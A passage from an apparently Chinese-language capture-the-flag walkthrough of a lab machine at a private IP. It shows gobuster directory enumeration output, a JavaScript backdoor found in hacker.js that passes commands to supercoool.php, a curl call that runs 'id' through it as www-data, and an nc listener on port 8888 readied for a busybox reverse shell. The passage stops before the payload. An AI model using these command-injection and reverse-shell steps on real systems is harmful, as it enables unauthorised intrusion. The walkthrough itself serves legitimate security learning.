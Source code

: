 ```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 40821]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/img                  (Status: 301) [Size: 323] [--> http://192.168.205.213/hacker/img/]
/css                  (Status: 301) [Size: 323] [--> http://192.168.205.213/hacker/css/]
/js                   (Status: 301) [Size: 322] [--> http://192.168.205.213/hacker/js/]
Progress: 40053 / 1102800 (3.63%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 42645 / 1102800 (3.87%)
===============================================================
Finished
===================================
```
爆破结果都是些常规目录，`index.html`, `img`, `css`, `js`。看来得去看看页面源码了，尤其是JS文件。
在浏览器中访问 `https://192.168.205.213/hacker/js/` ，看到一个叫`hacker.js`的JS文件

![image-20250517164504164](https://7r1umphk.github.io/image/20250517164504335.webp)

在 `hacker.js` 的底部发现了一段有意思的JavaScript代码：
```javascript
document.addEventListener('keydown', function (e) {
    if (e.ctrlKey && e.shiftKey && e.key === 'Z') {
        let cmd = prompt('è¯·è¾“å…¥è°ƒè¯•å‘½ä»¤:'); // 提示：请输入调试命令
        if (cmd) {
            fetch('./supercoool.php?cmd=' + encodeURIComponent(cmd))
                .then(res => res.text())
                .then(txt => {
                    alert('å‘½ä»¤è¾“å‡ºï¼š\n' + txt); // 提示：命令输出
                });
        }
    }
});
```
好家伙！这藏了个后门啊！当在 `https://192.168.205.213/hacker/` 页面按下 `Ctrl + Shift + Z` 组合键时，会弹出一个输入框，让你输入命令，然后通过 `supercoool.php` 这个文件以GET请求的`cmd`参数来执行。

直接用`curl`来利用这个后门，先试试执行`id`命令。

```bash
┌──(kali㉿kali)-[~]
└─$ curl -k "https://192.168.205.213/hacker/supercoool.php?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>                                                                              
```
成功执行！当前用户是 `www-data`。那必须弹个shell回来了。

本地Kali开个`nc`监听：
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888                       
listening on [any] 8888 ...
```
然后通过`curl`发送反弹shell的payload。靶机上有`busybox nc`，用它来反弹。
